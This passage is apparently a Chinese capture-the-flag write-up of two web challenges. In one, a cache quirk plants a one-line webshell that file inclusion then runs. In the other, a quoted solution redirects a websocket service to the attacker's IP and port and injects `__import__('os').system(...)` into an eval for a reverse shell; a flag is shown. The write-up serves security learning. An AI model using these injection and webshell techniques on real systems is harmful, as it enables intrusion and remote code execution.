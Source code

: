 > 202.120.7.205/static.php/l.js ，md5 哈希过后得到的值为 bbbcb40ec7f308548f1d387c5ca763ba 按照配置⽂文件中所规定的 1:2 的命名法，可以得到完整路路径 为： /tmp/a/3b/bbbcb40ec7f308548f1d387c5ca763ba

然后，利用/static.php会对.css和.js结尾文件进行缓存的特性。而且当其缓存一个不存在的文件时，会直接输出文件名。也就是说，缓存一个不存在的文件时，缓存临时文件还会生成，里面的内容会是xxx not exists！xxx指文件名。

那么，我们就能利用这个特性，缓存一个一句话到缓存目录。

福州大学WP截图：

![cache1](http://momomoxiaoxi.com/img/post/EIS/7.png)

接着，只需要利用page的文件包含，进行利用即可。文件位置利用前面说的缓存规则推算而得。

如下：

![cache2](http://momomoxiaoxi.com/img/post/EIS/8.png)

getshell成功，查看一下flag即可。

PS：人对未知的东西总是充满恐惧，做题的时候想到了缓存，但是因为以前没接触过，就害怕，放弃了。自省！

## 验证码

这题没做出来，Websocket也不是很懂。学习了下Melody的WP，不过现在还不理解他如何做到将melody.py上传上去的。题目环境又关了，没办法复现😭。

贴上他的题解：

> 本题逻辑十分简单，请求服务器器⼀个验证码，服务器器返回字符画。请求结果，服务端校验结果。有⼀个隐藏的 help 指令，可以 reconnect，问题在于如何指定 reconnect 的服务器，将发给 ws 服务的 json 中的值依次替换成 [] 可以通过报错信息推断后端逻辑，得到 method 会被带⼊入到 getattr 中，那么必须得是⼀一个类中规定好的⽅方 法才能够带⼊入进来，可行的操作并不不多，测试了`__init__` 函数，根据错误信息发现可以带⼊两个参数， 因此发包如下
>
> {"method":"__init__","args":[ip,port]}
>
> 接着调⽤用 reconnect
>
> {"method":"reconnect"}
>
> 此时服务器器上监听的端⼝口已收到信息。
>
> 我们继续请求新的验证码，发现服务端向我们请求⼀一个操作符，操作数由服务端⽣生成好了了，因此猜测整个表达式被带⼊入到 eval 中得到返回值，再给客户校验计算结果。那么答案也就显⽽易见了。我们将给客户的操作符定 义为
>
> `+__import__('os').system('python\x20/tmp/melody.py')+`
>
> 那么被带⼊入到后端就会变成
>
> `eval("1+__import__('os').system('python\x20/tmp/melody.py')+2") `
>
> 我们的代码就得到执⾏行行了了，尝试后成功反弹 shell。 最后在 arifmetics.py 中找到 ﬂag。
>
> ```python
> cat ar* 
> import asyncio 
> from hashlib import md5 
> from random import choice, randint 
> from threading import Thread
>
> SALT = b"EIS{87a5d7e4aae098be036d6b8035e4}
> ```
>
> 
